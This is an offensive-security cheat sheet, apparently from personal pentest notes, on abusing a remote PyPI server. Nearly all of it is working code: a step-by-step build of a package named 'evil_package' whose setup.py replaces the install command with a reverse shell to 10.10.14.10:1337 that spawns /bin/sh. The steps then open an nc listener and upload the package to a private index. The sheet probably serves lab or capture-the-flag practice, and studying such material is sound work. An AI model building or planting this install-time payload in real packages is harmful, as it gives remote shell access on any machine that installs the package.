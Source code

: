 ```yaml
---
title: "Pypi"
date: 2024-7-19
tags: ["python", "pypi", "package", "rce"]
---
```


---
### Abuse #1: Remote Pypi Server

#### 1. Create files

<div>

```bash
mkdir evil_package
```

```bash
mkdir evil_package/evil_package
```

```bash
cd evil_package
```

```bash
touch README.md
```

```bash
touch evil_package/__init__.py
```

```bash
touch setup.cfg
```

```bash
touch setup.py
```

</div>

#### 2. Replace setup.py

<div>

```python
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.14.10",1337)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(name="evil_package",
      version="1.0.0",
      description="Evil Package",
      author="user",
      author_email="user@example.com",
      url="http://example.com",
      license="MIT",
      zip_safe=False,
      cmdclass={"install": Exploit})
```

</div>

#### 3. Create ~/.pypirc

<div>

```bash
[distutils]
index-servers =
  example
[example]
repository: http://pypi.example.com
username: user
password: password
```

</div>

#### 4. Exploit

<div>

```bash
# Open a nc listener
rlwrap nc -lvnp 1337
```

</div>

<br>

<div>

```bash
# Create an archive
python3 setup.py sdist
```

```bash
# Upload
python3 setup.py sdist upload -r example
```

</div>

<br>